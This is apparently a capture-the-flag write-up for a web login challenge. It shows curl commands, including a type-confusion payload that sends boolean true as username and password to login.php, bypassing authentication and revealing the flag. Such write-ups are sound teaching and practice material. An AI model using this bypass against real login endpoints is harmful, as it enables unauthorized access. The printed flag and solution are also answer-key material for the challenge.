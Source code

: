 # Visiting the website

There is a login page when visiting the site.

![](screenshots/1.png)

# Login form

There is northing else here, just a simple form that is sent via javascript, sending a json to `login.php`.

```bash
curl -v 'http://10.10.100.112:48080/login.php' -X POST --data-raw '{"username": "administrator", "password": "admin"}'
```

# Type confusion

Contrary to the description, the username is not `administrator`.

Sending different type in place of both parameter, boolean true, is bypassing the login screen, and handling out the flag.

```bash
curl -v 'http://10.10.100.112:48080/login.php' -X POST --data-raw '{"username": true, "password": true}'
```

![](screenshots/2.png)

# Flag
`CQ25{N0t_MY_TYP3}`